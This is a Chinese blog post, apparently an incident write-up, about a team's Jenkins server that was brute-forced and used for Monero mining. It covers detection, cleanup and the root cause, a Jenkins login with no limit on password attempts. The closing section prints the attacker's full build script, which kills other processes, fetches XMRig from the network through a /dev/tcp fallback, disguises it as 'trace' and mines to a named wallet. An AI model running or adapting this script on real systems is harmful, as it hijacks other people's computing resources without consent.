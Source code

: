 以此篇Blog纪念服务器第一次被hack，加强安全意识(排查过程挺好玩的).

#### 经过
Nov 18, 2019 1:03:00 PM，team的服务器被歹人劫持并在其命令下沦为了一台被没日没夜压榨的辛苦矿工，在我与Jerry的共同努力下顺着线索层层排查，终于找到了矿工所在地，并成功营救出矿工。以下为详细侦查经过。

2019年11月18日下午3点左右，资深工程师Jerry在使用服务器时猛然发觉异样，于是使用top指令查看发现CPU使用率居然维持在惊人的791.4%，并指出这是一个id为2220的线程使用的，而该线程明显不是我们自己启动的

![](https://user-images.githubusercontent.com/37465243/69053079-89d8e100-0a43-11ea-96b5-7396c63805d6.png)
于是马上通知了我这一异样，在排除掉小数点显示错位这一可能性后，开始详细排查原因。

首先使用htop查看线程具体信息与启动指令，图片如下。该命令明显不像用户通过终端启动的，但由于启动命令的路径为相对路径，相对路径名称./trace明显不是一个程序，因此进一步的

![](https://user-images.githubusercontent.com/37465243/69052920-336ba280-0a43-11ea-8b98-3fe33f859437.png)

使用`ll /proc/PID`指令查看启动命令的绝对路径信息：

![](https://user-images.githubusercontent.com/37465243/69052921-336ba280-0a43-11ea-84a8-11b8bd6eabfe.png)

此处看到了一个我们熟悉的关键词，Jenkins，于是登录Jenkins发现里面被人创建了一个名为Updating的workspace，且其一直处于build状态.

![](https://user-images.githubusercontent.com/37465243/69052924-34043900-0a43-11ea-866f-a30b6fce3ddd.png)

打开配置文件，在build脚本中，我们找到了其究竟对服务器做了什么(后续分析)

![](https://user-images.githubusercontent.com/37465243/69052925-34043900-0a43-11ea-8248-dbf06ebe1a54.png)

此时只需要禁用该workspace，并关闭已启动的进程即可，服务器就此恢复正常。

![](https://user-images.githubusercontent.com/37465243/69052927-349ccf80-0a43-11ea-94b5-23551128a556.png)

#### 分析
回头复盘一下发现，整个安全事件的根本原因在于Jenkins的没有设置密码验证机制，密码输入错误后可以马上无间断的再次输入，且没有输入次数限制，该安全隐患在安装Jenkins之处的时候就已经发现了，但是当时没有处理，因此给hacker暴力破解提供了可能性，剩下的就简单多了，hacker暴力破解后，创建了一个workspace，并编写build脚本，并在服务器上安装挖矿程序，然后推出。比较可惜的是，挖矿程序只执行了不到4小时就被关停了。

更进一步的我想通过Jenkins的脚本想尝试追踪一下这个hacker的信息，但发现难度很大，在脚本中还有两个有用的线索：

* https://github.com/xmrig/xmrig/releases/download/v5.0.0/xmrig-5.0.0-xenial-x64.tar.gz
* --user 46sfbbM3XSjBo54d5a8PYUU5yQ31x6Rpv6tBhe22Cd7VYeJUyFUhzBF5rTf1oTB1d8MqgHxX5RbbEEKZd8fBAAmcFfv9Y5c

前者是挖矿工具的github地址，是一个公共工具，仓库所有者不可能是hacker，
至于第二条信息，一个标准的区块链账号，而区块链账号的特征之一就是匿名，无法通过账号锁定账号持有者，所以几乎没有查找到所有人的可能性。
下一步准备看一下Jenkins的登录日志是有有IP信息，但也不抱有特别大的希望，这里就把hacker的区块链账号明文贴出来不打码了～～

完整脚本如下：
```sh
#!/bin/bash
if [[ $(whoami) != "root" ]]; then
    for tr in $(ps -U $(whoami) | egrep -v "java|ps|sh|egrep|grep|PID" | cut -b1-6); do
        kill -9 $tr || : ;
    done;
fi

threadCount=$(lscpu | grep 'CPU(s)' | grep -v ',' | awk '{print $2}' | head -n 1);
hostHash=$(hostname -f | md5sum | cut -c1-8);
echo "${hostHash} - ${threadCount}";

_curl () {
  read proto server path <<<$(echo ${1//// })
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [[ x"${HOST}" == x"${PORT}" ]] && PORT=80

  exec 3<>/dev/tcp/${HOST}/$PORT
  echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
  (while read line; do
   [[ "$line" == $'\r' ]] && break
  done && cat) <&3
  exec 3>&-
}

rm -rf config.json;

d () {
	curl -L --insecure --connect-timeout 5 --max-time 40 --fail $1 -o $2 2> /dev/null || wget --no-check-certificate --timeout 40 --tries 1 $1 -O $2 2> /dev/null || _curl $1 > $2;
}

test ! -s trace && \
    d https://github.com/xmrig/xmrig/releases/download/v5.0.0/xmrig-5.0.0-xenial-x64.tar.gz trace.tgz && \
    tar -zxvf trace.tgz && \
    mv xmrig-5.0.0/xmrig trace && \
    rm -rf xmrig-5.0.0 && \
    rm -rf trace.tgz;

test ! -x trace && chmod +x trace;

k() {
    ./trace \
        -r 2 \
        -R 2 \
        --keepalive \
        --no-color \
        --donate-level 1 \
        --max-cpu-usage 80 \
        --cpu-priority 3 \
        --print-time 25 \
        --threads ${threadCount:-4} \
        --url $1 \
        --user 46sfbbM3XSjBo54d5a8PYUU5yQ31x6Rpv6tBhe22Cd7VYeJUyFUhzBF5rTf1oTB1d8MqgHxX5RbbEEKZd8fBAAmcFfv9Y5c \
        --pass x \
        --coin xmr \
        --keepalive
}

k xmr-eu1.nanopool.org:14444 || k xmr-eu2.nanopool.org:14444 || k xmr-us-east1.nanopool.org:14444 || k xmr-us-west1.nanopool.org:14444 || k xmr-asia1.nanopool.org:14444 || k xmr-jp1.nanopool.org:14444
```

#### 后记
在被hack之后在网上也找到了不少其他的类似的案例，Win和linux系统都有，hack的渠道也多种多样，还是要对hacker的技术涉猎面表示一下佩服。

准确讲这并不算一个病毒，只是别人利用密码验证机制的漏洞，通过Jenkins在服务器上部署了一个占用资源非常庞大的应用程序，客观的说这个应用程序对系统也是无害的，但从安全角度上讲，kacker是有能力通过这一漏洞对系统进行破坏的，所幸的是这是一个测试服务器，不会带来直接的经济损失，但此处被hack的经历，确实暴漏出我对服务器安全的不重视，算是一次没有“花钱”买的教训。

